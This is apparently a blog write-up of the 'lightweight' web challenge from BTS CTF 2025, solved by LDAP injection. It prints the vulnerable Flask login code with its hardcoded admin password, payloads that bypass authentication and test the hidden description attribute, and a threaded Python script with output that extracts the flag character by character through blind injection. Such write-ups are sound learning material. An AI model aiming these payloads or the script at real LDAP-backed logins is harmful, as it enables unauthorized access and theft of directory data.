 ```yaml
---
title: BTS CTF 2025 - WEB
date: 2025-05-11
tags: [ctf, web]
categories: [CTF Writeups]
author: 2Fa0n
img_path: /assets/img/bts-ctf_2025
image: /assets/img/bts-ctf_2025/bts-ctf_banner.png
---
```


# Web
## lightweight
**Solvers:** 197 <br>
**Author:** bts

### Description
It's not heavy. <br>
![lightweight](/assets/img/bts-ctf_2025/lightweight.png)

### Solution
Trying some guessable credentials but not working, so I tried to check the source code. <br>

![source](/assets/img/bts-ctf_2025/source.png)

Go through and found that this application might be vulnerable to LDAP injection as seen in the `app.py` file. <br>
```python
from flask import Flask, render_template, request
from ldap3 import Server, Connection, ALL

app = Flask(__name__)

ADMIN_PASSWORD = "STYE0P8dg55WGLAkFobiwMSJKix1QqpH"


@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        
        server = Server('localhost', port=389, get_info=ALL)

        conn = Connection(server, 
                          user=f'cn=admin,dc=bts,dc=ctf',
                          password=ADMIN_PASSWORD,
                          auto_bind=True)
        
        if not conn.bind():
            return 'Failed to connect to LDAP server', 500

        conn.search('ou=people,dc=bts,dc=ctf', f'(&(employeeType=active)(uid={username})(userPassword={password}))', attributes=['uid'])

        if not conn.entries:
            return 'Invalid credentials', 401

        return render_template('index.html', username=username)
    
    return render_template('login.html')
```

I google for `LDAP injection payload` and found this [article](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md). <br>
So I tried with:
```
username: *
password: *
```

![ldap](/assets/img/bts-ctf_2025/ldap.png)

I successfully logged in and can confirm that the application is vulnerable to LDAP injection. <br>

Ok, now how to get flag? <br>
Look through the source code again, found this in `entrypoint.sh` file:
```sh
#!/bin/bash

# append description with flag
echo "description: BtSCTF{fake_flag}" >> /base.ldif && cat /base.ldif

# start
echo Starting
service slapd start

sleep 1
ldapadd -D cn=admin,dc=bts,dc=ctf -f /base.ldif -x -w STYE0P8dg55WGLAkFobiwMSJKix1QqpH

cd /app && python3 -m gunicorn -b 0.0.0.0:80 app:app
```

So the attribute `description` stored the flag. Let's try to understand the flow of the application. <br>
When we success login, it will show `index.html` page. But the things we curious about is the `sensitive data` in:
```html
<p class="text-gray-600 mt-1">User Description: FAILED TO LOAD <!-- Probably for the better, as it might contain sensitive data --></p>
```

If we failed to login, it will show:
```http
HTTP/2 401 Unauthorized
```

But if we success login, it will show:
```http
HTTP/2 200 OK
```

So this application likely to blind LDAP injection. Let's try it out to confirm. <br>
```
username: *)(description=*
password: *
```

![blind](/assets/img/bts-ctf_2025/blind.png)

See `200` in the response meaning that the injection is successful. <br>
Let's try one more time case, we know the format of the flag is `BtSCTF{...}`. <br>
```
username: *)(description=BtSCTF{*
password: *
```

![flag](/assets/img/bts-ctf_2025/flag.png)

Ok, it seems that we go on the right track, now we can either use `Burp Intruder` to brute force the rest of the content in the flag or craft a `python script` to do it. <br>

I choose the latter, here's the script:
```python
import requests
import string
import concurrent.futures
import time

url = "https://lightweight.chal.bts.wh.edu.pl/"
charset = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_-{}!"
known_flag = "BtSCTF{"
max_workers = 5

print(f"[*] Known flag so far: {known_flag}")

def test_character(char):
    flag = known_flag + char
    
    data = {
        "username": "*",
        "password": f"*)(description={flag}*"
    }
    
    try:
        response = requests.post(url, data=data, timeout=5)
        if response.status_code == 200:
            return char, True
        return char, False
    except:
        return char, None

while "}" not in known_flag and len(known_flag) < 50:
    found = False
    
    common_first = [c for c in "_-abcdefghijklmnopqrstuvwxyz0123456789{}"]
    
    with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
        future_to_char = {executor.submit(test_character, c): c for c in common_first}
        
        for future in concurrent.futures.as_completed(future_to_char):
            char, result = future.result()
            if result:
                known_flag += char
                print(f"[+] Found character: {char} | Flag so far: {known_flag}")
                found = True
                for f in future_to_char:
                    f.cancel()
                break
            elif result is None:
                print(f"[!] Error testing '{char}', retrying...")
    
    if not found:
        remaining_chars = [c for c in charset if c not in common_first]
        
        with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
            future_to_char = {executor.submit(test_character, c): c for c in remaining_chars}
            
            for future in concurrent.futures.as_completed(future_to_char):
                char, result = future.result()
                if result:
                    known_flag += char
                    print(f"[+] Found character: {char} | Flag so far: {known_flag}")
                    found = True
                    for f in future_to_char:
                        f.cancel()
                    break
    
    if not found:
        print(f"[!] Could not find next character. Current flag: {known_flag}")
        break

print(f"[*] Final extracted flag: {known_flag}")
```

```bash
➜  lightweight python3 ldap_exploit.py
[*] Known flag so far: BtSCTF{
[+] Found character: _ | Flag so far: BtSCTF{_
[+] Found character: b | Flag so far: BtSCTF{_b
[+] Found character: l | Flag so far: BtSCTF{_bl
[+] Found character: 1 | Flag so far: BtSCTF{_bl1
[+] Found character: n | Flag so far: BtSCTF{_bl1n
[+] Found character: d | Flag so far: BtSCTF{_bl1nd
[+] Found character: _ | Flag so far: BtSCTF{_bl1nd_
[+] Found character: l | Flag so far: BtSCTF{_bl1nd_l
[+] Found character: d | Flag so far: BtSCTF{_bl1nd_ld
[+] Found character: 4 | Flag so far: BtSCTF{_bl1nd_ld4
[+] Found character: p | Flag so far: BtSCTF{_bl1nd_ld4p
[+] Found character: _ | Flag so far: BtSCTF{_bl1nd_ld4p_
[+] Found character: 1 | Flag so far: BtSCTF{_bl1nd_ld4p_1
[+] Found character: n | Flag so far: BtSCTF{_bl1nd_ld4p_1n
[+] Found character: j | Flag so far: BtSCTF{_bl1nd_ld4p_1nj
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3
[+] Found character: c | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3c
[+] Found character: t | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct
[+] Found character: 1 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct1
[+] Found character: 0 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10
[+] Found character: n | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n
[+] Found character: _ | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_
[+] Found character: y | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y
[+] Found character: 1 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1
[+] Found character: p | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1p
[+] Found character: p | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp3
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp33
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp3333
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp33333
[+] Found character: 3 | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333
[+] Found character: } | Flag so far: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333}
[*] Final extracted flag: BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333}
```

**Flag:** `BtSCTF{_bl1nd_ld4p_1nj3ct10n_y1pp333333}`

**PS:** If we know the abbreviation of [LDAP](https://ldap.com/), it probably faster to us to identify this challenge is LDAP injection :D.